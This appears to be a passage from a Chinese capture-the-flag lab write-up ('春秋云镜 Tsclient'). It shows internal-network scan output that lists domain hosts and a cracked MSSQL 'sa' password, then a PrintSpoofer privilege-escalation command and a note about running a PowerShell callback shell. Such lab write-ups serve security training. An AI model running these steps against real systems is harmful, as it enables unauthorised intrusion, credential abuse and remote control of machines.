 ```
172.22.8.31:139 open
172.22.8.18:445 open
172.22.8.46:139 open
172.22.8.15:139 open
172.22.8.18:139 open
[*] alive ports len is: 16
start vulscan
[*] NetInfo:
[*]172.22.8.46
   [->]WIN2016
   [->]172.22.8.46
[*] NetInfo:
[*]172.22.8.15
   [->]DC01
   [->]172.22.8.15
[*] NetInfo:
[*]172.22.8.18
   [->]WIN-WEB
   [->]172.22.8.18
   [->]2001:0:348b:fb58:10d7:1f27:d89c:6bd2
[*] NetInfo:
[*]172.22.8.31
   [->]WIN19-CLIENT
   [->]172.22.8.31
[*] NetBios: 172.22.8.31     XIAORANG\WIN19-CLIENT          
[*] NetBios: 172.22.8.46     WIN2016.xiaorang.lab                Windows Server 2016 Datacenter 14393 
[*] NetBios: 172.22.8.15     [+]DC XIAORANG\DC01            
[*] WebTitle: http://172.22.8.18        code:200 len:703    title:IIS Windows Server
[*] WebTitle: http://172.22.8.46        code:200 len:703    title:IIS Windows Server
[+] mssql:172.22.8.18:1433:sa 1qaz!QAZ
```

### 提权

https://github.com/itm4n/PrintSpoofer/

```
shell  C:\Users\Default\AppData\Local\Temp\PrintSpoofer64.exe -i -c "powershell.exe -c whoami"
```

![image-20230806162537241](img/春秋云镜-Tsclient/image-20230806162537241.png)

sc生成powershell，运行回连
